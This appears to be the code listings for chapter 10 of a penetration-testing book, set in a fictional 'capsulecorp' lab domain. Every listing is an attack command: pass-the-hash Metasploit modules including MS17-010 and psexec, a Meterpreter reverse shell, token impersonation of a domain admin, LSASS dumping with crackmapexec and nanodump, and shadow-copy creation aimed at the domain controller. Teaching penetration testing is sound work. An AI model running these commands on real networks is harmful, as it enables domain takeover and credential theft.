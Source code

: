 # Chapter 10 Instructions

### Listing 10.1 Output of the net group command

```
run this on the raditz machine
net group "Domain Admins" /domain 
```

```
Use auxiliary/admin/smb/ms17_010_command
set rhosts 10.0.10.204
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e
set threads 10
set command qwinsta
set verbose false
run
```

### Listing 10.3 Opening a new Meterpreter session on 10.0.10.207

```
use exploit/windows/smb/psexec
set rhosts 10.0.10.207
set smbdomain .
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e
set payload windows/x64/meterpreter/reverse_winhttps
exploit
```

### Listing 10.4 Listing available tokens with Incognito

```
load incognito
list_tokens -u
```

### Listing 10.5 Impersonating the domain admin account

```
impersonate_token capsulecorp\serveradmin
```

### Listing 10.6 Harvesting the clear-text password using Mimikatz

```
crackmapexec smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -M nanodump
```

### Listing 10.7 Locating the domain controller’s IP address

```
cme smb 10.0.10.207 --local-auth -u administrator -H aad3b435b51404eeaad3b435b51404ee:0e17e3e87e6750e503dc2d023f58032e -x "cmd /c ping capsulecorp.local"
```

### Listing 10.8 Checking for an existing VSC

```
cme smb 10.0.10.200 -u serveradmin -p 'S3cr3tPa$$!' -x 'vssadmin list shadows'
```

### Listing 10.9 Creating a new VSC

```
vssadmin create shadow /for=C:
```
